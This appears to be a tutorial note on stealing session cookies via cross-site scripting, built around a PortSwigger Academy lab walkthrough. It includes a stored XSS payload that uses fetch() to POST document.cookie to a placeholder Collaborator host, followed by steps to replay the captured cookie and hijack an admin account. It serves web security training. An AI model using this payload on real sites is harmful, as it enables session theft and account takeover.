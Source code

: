 Stealing cookies is a traditional way to exploit XSS as most web applications uses cookies for session handling. Once an attacker is able to retrieve the victim's cookies, they can use it to impersonate the victim. However, this practice has some limitations:
- The victim might not be logged in.
- Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
- Sessions might be locked to additional factors like the user's IP address.
- The session might time out before you're able to hijack it.
## Example from PortSwigger Academy
1. Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server. 
4. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's cookie in the POST body.
6. Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to `/my-account` to load the admin user's account page.